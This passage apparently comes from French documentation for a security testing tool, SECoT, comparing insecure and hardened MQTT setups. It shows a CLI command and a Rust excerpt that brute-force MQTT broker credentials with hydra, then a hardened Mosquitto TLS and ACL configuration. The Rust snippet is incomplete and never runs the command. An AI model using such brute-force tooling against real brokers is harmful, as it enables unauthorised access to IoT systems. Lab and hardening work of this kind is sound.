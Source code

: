 ```bash
```

### Vulnérabilités
- Fuite des identifiants
- Pas de protection contre les attaques MITM
- Contournement possible des ACL

### Exemple d'Attaque avec SECoT
```bash
# Commande pour forcer les identifiants
SECoT mqtt-attack --broker 192.168.1.100 --port 1883 brute-force --users users.txt --passwords passwords.txt
```

### Code Source de l'Attaque
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/mqtt_attacks.rs
pub async fn brute_force_mqtt(broker: &str, port: u16, users_file: &str, passwords_file: &str) -> Result<(), Box<dyn std::error::Error>> {
    let mut hydra_command = Command::new("hydra");
    hydra_command
        .arg("-L").arg(users_file)
        .arg("-P").arg(passwords_file)
        .arg(format!("{}:{}", broker, port))
        .arg("mqtt");
}
```

## Scénario 3 : MQTT sécurisé

### Configuration
```bash
# Configuration du broker Mosquitto sécurisé
listener 8883
cafile /etc/mosquitto/certs/ca.crt
certfile /etc/mosquitto/certs/server.crt
keyfile /etc/mosquitto/certs/server.key
require_certificate true
use_identity_as_username true

# Fichier mosquitto_passwd avec mots de passe forts
admin:$6$rounds=5000$salt$hashed_password
sensor:$6$rounds=5000$salt$hashed_password
client:$6$rounds=5000$salt$hashed_password

# Fichier ACL strict
user admin
topic readwrite #

user sensor
topic write sensors/#
topic read sensors/#

user client
topic read sensors/#
topic write commands/#
```
